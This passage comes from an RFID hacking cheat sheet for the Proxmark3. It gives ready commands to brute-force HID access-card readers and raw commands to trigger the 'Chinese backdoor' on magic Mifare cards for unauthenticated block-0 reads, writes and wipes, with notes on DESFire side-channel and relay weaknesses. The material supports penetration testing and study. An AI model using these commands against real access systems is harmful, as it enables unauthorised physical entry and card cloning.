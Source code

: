 ### Bruteforce an HID reader

```powershell
pm3 --> lf hid brute a 26 f 224
pm3 --> lf hid brute v a 26 f 21 c 200 d 2000

Options
---
a <format>        :  26|33|34|35|37|40|44|84
f <facility-code> :  8-bit value HID facility code
c <cardnumber>    :  (optional) cardnumber to start with, max 65535
d <delay>         :  delay betweens attempts in ms. Default 1000ms
v                 :  verbose logging, show all tries
```

## HF - Mifare DESFire

> No known attacks yet ! Unencrypted sectors can be read, also you can try to look for default keys. All MIFARE cards are prone to relay attack.

*   Mifare DESFire [MF3ICD40](https://arstechnica.com/information-technology/2011/10/researchers-hack-crypto-on-rfid-smart-cards-used-for-keyless-entry-and-transit-pass/): uses Triple DES encryption, product discontinued.

    ```powershell
    It requires the attacker to have the card itself, an RFID reader, and a radio probe. 
    Using differential power analysis, data is collected from radio frequency energy 
    that leaks out of the card (its “side channels”).
    ```
* Mifare DESFire EV1 : the challenge is done with AES or 3DES.
* Mifare DESFire EV2

## HF - Mifare Ultra Light

* Ultralight C (3DES authentication)
* Ultralight EV1
* NTAG2

### Chinese backdoor

```powershell
pm3 --> hf 14a raw -p -b 7 40
pm3 --> hf 14a raw -p 43
pm3 --> hf 14a raw -p -c a20059982120

0x40, init backdoor mode
0x41, wipe fills card with 0xFF
0x42, fills card with 0x00
0x43, no authentication needed.  issue a 0x3000 to read block 0, or write block.
0x44, fills card with 0x55
```

### Simulate
